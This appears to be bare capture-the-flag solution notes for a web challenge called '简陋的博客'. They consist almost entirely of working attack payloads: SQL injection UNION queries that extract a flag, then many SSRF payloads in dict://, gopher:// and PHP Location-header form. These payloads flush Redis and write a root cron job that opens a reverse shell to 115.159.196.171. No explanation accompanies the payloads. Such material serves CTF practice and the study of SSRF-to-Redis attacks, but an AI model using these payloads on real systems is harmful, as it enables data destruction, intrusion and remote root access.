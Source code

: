 
简陋的博客 150

a=article` where 1=-1 union all select 1,2,GROUP_CONCAT(table_name) FROM information_schema.tables%23
flag_is_here

a=article` where 1=-1 union all select 1,table_name,column_name FROM information_schema.columns limit 1 offset 318%23
flag_is_here:flag

a=article` where 1=-1 union all select 1,2,flag FROM flag_is_here%23
SYC{O0o._O0o._O0o._O0o._O0o.}


dict://127.0.0.1:6379/_*1
$8
flushall
*3
$3
set
$1
1
$64

%0a%0a*/1 * * * * bash -i >& /dev/tcp/115.159.196.171/2333 0>&1%0a%0a%0a%0a%0a


*4
$6
config
$3
set
$3
dir
$16
/var/spool/cron/
*4
$6
config
$3
set
$10
dbfilename
$4
root
*1
$4
save
quit


dict://172.18.0.2:6379/_*1
$8
flushall
*3
$3
set
$1
1
$64

%0a%0a*/1 * * * * bash -i >& /dev/tcp/115.159.196.171/2333 0>&1%0a%0a%0a%0a%0a


*4
$6
config
$3
set
$3
dir
$16
/var/spool/cron/
*4
$6
config
$3
set
$10
dbfilename
$4
root
*1
$4
save
quit


dict://127.0.0.1:2333/test%0d%0a*1%0d%0a$8%0d%0aflushall%0d%0a*3%0d%0a$3%0d%0aset%0d%0a$1%0d%0a1%0d%0a$63%0d%0a%0a%0a*/1%20*%20*%20*%20*%20bash%20-i%20>%26%20/dev/tcp/115.159.196.171/2334%200>%261%0a%0a%0a%0d%0a*4%0d%0a$6%0d%0aconfig%0d%0a$3%0d%0aset%0d%0a$3%0d%0adir%0d%0a$16%0d%0a/var/spool/cron/%0d%0a*4%0d%0a$6%0d%0aconfig%0d%0a$3%0d%0aset%0d%0a$10%0d%0adbfilename%0d%0a$4%0d%0aroot%0d%0a*1%0d%0a$4%0d%0asave%0d%0a*1%0d%0a$4%0d%0aquit%0d%0a

dict://127.0.0.1:2333/_*1%0d%0a$8%0d%0aflushall%0d%0a*3%0d%0a$3%0d%0aset%0d%0a$1%0d%0a1%0d%0a$64%0d%0a%0d%0a%0a%0a*/1%20*%20*%20*%20*%20bash%20-i%20>&%20/dev/tcp/115.159.196.171/2333%200>&1%0a%0a%0a%0a%0a%0d%0a%0d%0a%0d%0a*4%0d%0a$6%0d%0aconfig%0d%0a$3%0d%0aset%0d%0a$3%0d%0adir%0d%0a$16%0d%0a/var/spool/cron/%0d%0a*4%0d%0a$6%0d%0aconfig%0d%0a$3%0d%0aset%0d%0a$10%0d%0adbfilename%0d%0a$4%0d%0aroot%0d%0a*1%0d%0a$4%0d%0asave%0d%0aquit%0d%0a

dict://127.0.0.1:2333/_*1%0D%0A$8%0D%0Aflushall%0D%0A*3%0D%0A$3%0D%0Aset%0D%0A$1%0D%0A1%0D%0A$64%0D%0A%0D%0A%0a%0a*/1 * * * * bash -i >& /dev/tcp/115.159.196.171/2333 0>&1%0a%0a%0a%0a%0a%0D%0A%0D%0A%0D%0A*4%0D%0A$6%0D%0Aconfig%0D%0A$3%0D%0Aset%0D%0A$3%0D%0Adir%0D%0A$16%0D%0A/var/spool/cron/%0D%0A*4%0D%0A$6%0D%0Aconfig%0D%0A$3%0D%0Aset%0D%0A$10%0D%0Adbfilename%0D%0A$4%0D%0Aroot%0D%0A*1%0D%0A$4%0D%0Asave%0D%0Aquit%0D%0A

gopher://127.0.0.1:6379/_*3%0d%0a$3%0d%0aset%0d%0a$1%0d%0a1%0d%0a$56%0d%0a%0d%0a%0a%0a*/1 * * * * bash -i >& /dev/tcp/127.0.0.1/2333 
0>&1%0a%0a%0a%0d%0a%0d%0a%0d%0a*4%0d%0a$6%0d%0aconfig%0d%0a$3%0d%0aset%0d%0a$3%0d%0ad
ir%0d%0a$16%0d%0a/var/spool/cron/%0d%0a*4%0d%0a$6%0d%0aconfig%0d%0a$3%0d%0aset%0d%0a$
10%0d%0adbfilename%0d%0a$4%0d%0aroot%0d%0a*1%0d%0a$4%0d%0asave%0d%0a*1%0d%0a$4%0d%0aq
uit%0d%0a

dict://127.0.0.1:6379/set:0:%22%5Cx0a%5Cx0a*/1%5Cx20*%5Cx20*%5Cx20*%5Cx20*%5Cx20/bin/bash%5Cx20-i%5Cx20%3E%5Cx26%5Cx20/dev/tcp//%5Cx200%3E%5Cx261%5Cx0a%5Cx0a%5Cx0a%22

header('Location: dict://172.18.0.2:6379/_%2A1%0D%0A%248%0D%0Aflushall%0D%0A%2A3%0D%0A%243%0D%0Aset%0D%0A%241%0D%0A1%0D%0A%2462%0D%0A%0A%0A%2A/1%20%2A%20%2A%20%2A%20%2A%20bash%20-i%20%3E%26%20/dev/tcp/115.159.196.171/2333%200%3E%261%0A%0A%0A%0D%0A%2A4%0D%0A%246%0D%0Aconfig%0D%0A%243%0D%0Aset%0D%0A%243%0D%0Adir%0D%0A%2416%0D%0A/var/spool/cron/%0D%0A%2A4%0D%0A%246%0D%0Aconfig%0D%0A%243%0D%0Aset%0D%0A%2410%0D%0Adbfilename%0D%0A%244%0D%0Aroot%0D%0A%2A1%0D%0A%244%0D%0Asave%0D%0A');

header('Location: dict://172.18.0.2:6379/_*1%0d%0a$8%0d%0aflushall%0d%0a*3%0d%0a$3%0d%0aset%0d%0a$1%0d%0a1%0d%0a$64%0d%0a%0d%0a%0a%0a*/1%20*%20*%20*%20*%20bash%20-i%20>&%20/dev/tcp/115.159.196.171/2333%200>&1%0a%0a%0a%0a%0a%0d%0a%0d%0a%0d%0a*4%0d%0a$6%0d%0aconfig%0d%0a$3%0d%0aset%0d%0a$3%0d%0adir%0d%0a$16%0d%0a/var/spool/cron/%0d%0a*4%0d%0a$6%0d%0aconfig%0d%0a$3%0d%0aset%0d%0a$10%0d%0adbfilename%0d%0a$4%0d%0aroot%0d%0a*1%0d%0a$4%0d%0asave%0d%0aquit%0d%0a');

header('Location: http://115.159.196.171/phpwaf.php?test');

172.18.0.2
